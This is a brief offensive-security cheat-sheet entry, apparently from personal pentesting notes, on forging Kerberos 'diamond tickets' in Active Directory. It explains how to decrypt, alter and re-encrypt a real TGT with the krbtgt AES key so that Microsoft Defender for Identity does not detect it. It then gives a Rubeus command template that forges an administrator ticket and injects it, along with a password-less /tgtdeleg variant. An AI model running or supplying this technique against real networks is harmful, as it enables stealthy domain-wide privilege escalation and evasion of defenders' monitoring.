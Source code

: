```yaml
---
category: Uncategorized
tags: []
---
```

- When we forge a `diamont ticket`, there is no pre-auth request corresponding to the forged ticket. This is an anomaly and can be detected by MDIs.
- To bypass this, we can request a TGT, decrypt it, modify if, then re-encrypt it, using the AES keys of the `krbtgt` account.
- Diamond ticket is the opsec safe version of the golden ticket.
### Rubeus
```powershell
Rubues.exe diamond
	/krbkey:<aes-key> # krbtgt aes account
	/user:<username> # user to use for as-req
	/password:<password> # password for the user to use for as-req
	/enctype:aes
	/ticketuser:administrator # user to create forged ticket for
	/domain:<domain-fqdn> # fqdn of the domain
	/dc:<dc-fqdn> # fqdn of the domain controller
	/ticketuserID # impersonated user ID, RID of administrator
	/groups
	/createnetonly:C\windows\system32\cmd.exe # logon type 9, only net requests.
	/show
	/ptt
	# instead of the passsing username & password, we can use
	/tgtdeleg # this will use the current user, and does not require password
```